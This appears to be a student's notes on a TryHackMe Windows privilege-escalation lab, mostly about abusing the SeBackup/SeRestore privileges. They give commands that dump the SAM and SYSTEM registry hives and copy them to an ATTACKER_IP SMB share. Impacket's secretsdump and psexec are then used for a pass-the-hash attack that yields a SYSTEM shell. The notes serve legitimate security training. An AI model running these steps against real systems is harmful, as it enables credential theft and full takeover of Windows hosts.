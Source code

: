 ```shell-session
sc stop THMService
```
```shell-session
sc start THMService
```
11. pwnd


## Windows Privileges
### Description
Each user has a set of assigned privileges they can be checked with the following command: `whoami /priv`

We can also take look at this site in order to get a list of interesting privileges [Priv2Admin](https://github.com/gtworek/Priv2Admin)


## SeBackup / SeRestore
### Description
This is a Windows Privilege that allows a user to read/write any file regardless of what the DACL has in place.

### Commands
1. `whoami /priv` = To check if we have this set on our current user
2. Next up is to backup both the SAM and SYSTEM hashes
```shell-session
reg save hklm\system C:\Users\THMBackup\system.hive
```
```shell-session
reg save hklm\sam C:\Users\THMBackup\sam.hive
```
3. Get both of these files over to our attacking machine now this time we are using Impacket's `smbserver.py`
```bash
mkdir share
```
```bash
python /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```
- We are creating a share called **public** and pointing it to **share** directory. We also feed it the creds of the current user we have access to.
4. Back on the victims machine we can now copy both of these hash files to our newly created share
```shell-session
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
```
```shell-session
copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```
5. Attacker machine now we use Impacket's to retrieve user hashes and preform a Pass-the-Hash attack.
```bash
python /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
```bash
	python /opt/impacket/examples/psexec.py -hashes <HASH_LOCATED_IN_LAST_STEP> administrator@10.10.154.159
```
6. This should get us a shell now with SYSTEM privileges
7. pwnd
